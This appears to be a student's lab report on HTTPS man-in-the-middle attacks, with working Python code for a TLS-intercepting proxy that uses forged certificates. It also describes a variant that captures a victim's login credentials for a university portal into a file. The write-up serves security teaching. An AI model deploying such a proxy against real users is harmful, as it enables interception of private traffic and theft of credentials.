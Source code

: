 # Task 3 

For this task we were required to build a HTTPS proxy and use it to launch Man-In-The-Middle Attacks where the host container is the victim that is trying to access the desired servers, this will be done through the browser.
It is assumed that the attacker managed to alter our /etc/hosts file to resolve the requested domains to our malicious HTTPS proxy.
Additionaly, the attacker has compromised a trusted CA's private key, enabling him to forge valid certificates for any web server, this is the case for HTTPS proxy

Two different scenarios were executed:
- Firstly, we will explore the case where the victim tries to access our own web server _www.example.com_ but gets proxied through our malicious proxy that redirects it to _www.google.com_
- Secondly, the same procedure will be performed in the opposite scenario, the victim tries to access _sigarra.up.pt/feup_ and gets redirected to our server

The following code was used in the HTTPS proxy:

```(python)
import threading
import socket
import ssl

def process_request(ssock_for_browser):
    hostname = 'www.example.com' # server to redirect to

    # Make a connection to the real server
    sock_for_server = socket.create_connection((hostname, 443))

    ssock_for_server = ssl.wrap_socket(sock_for_server)

    request = ssock_for_browser.recv(2048)
    if request:
        # Forward request to server
        ssock_for_server.sendall(request)

        # Get response from server, and forward it to browser
        response = ssock_for_server.recv(2048)

        while response:
            ssock_for_browser.sendall(response) # Forward to browser
            response = ssock_for_server.recv(2048)

    ssock_for_browser.shutdown(socket.SHUT_RDWR)
    ssock_for_browser.close()

def main():

    context_srv = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
    context_srv.load_cert_chain(certfile="cert.pem", keyfile="key.pem")

    sock_listen = socket.socket()
    sock_listen.bind(('localhost', 10023))
    sock_listen.listen(5)

    while True:
        sock_for_browser, fromaddr = sock_listen.accept()
        ssock_for_browser = context_srv.wrap_socket(sock_for_browser,
        server_side=True)

        x = threading.Thread(target=process_request, args=(ssock_for_browser,))
        x.start()

main()
```

## First scenario

In the first case, in the browser we try to access the domain _www.example.com_, the proxy redirects him to _www.google.com_ so this domain gets served to the browser.


![www.example.com](screenshots/t3s1.png)

## Second scenario

In this case we altered the code to print the sent data to a file, we attacked the domain _sigarra.up.pt/feup_ and try to login as our account.
The data gets sent to the proxy which redirects to the actual domain but in the process, saves it to a file in the malicious server.

![sigarra.up.pt/feup](screenshots/t3s2.png)

![payload](screenshots/t3payload.png)
